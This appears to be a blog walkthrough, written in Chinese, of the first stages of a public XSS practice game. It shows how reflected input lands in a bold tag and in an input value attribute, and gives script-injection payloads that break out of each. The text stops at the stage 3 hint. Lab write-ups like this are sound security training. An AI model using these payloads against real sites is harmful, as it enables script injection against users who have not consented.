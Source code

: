 ```yaml
---
title: XSS Game -2
date: 2018-02-07 13:20:46
tags:
		- XSS
categories:
		- Web安全

---
```


[XSS 学习小游戏](http://xss-quiz.int21h.jp/)





##### Stage #1

`Search`搜索框

输入 `11111`，输出的是 `11111`

	<b>"11111"</b>

`payload`

	</b><script>alert(document.domain);</script>

输出结果

	<b>"</b>
	<script>alert(document.domain);</script>


直接输入也行 `<script>alert(document.domain);</script>`。`<script>`可以直接在`<b>`标签中执行。

	<b>"<script>alert(document.domain);</script>"</b>


##### Stage #2

输出的内容

	<input type="text" name="p1" size="50" value="abcefd">

`payload`

	"><script>alert(document.domain);</script>

输出

	<input type="text" name="p1" size="50" value="">
	<script>alert(document.domain);</script>
	"&gt;

##### Stage #3

提示

	The input in text box is properly escaped
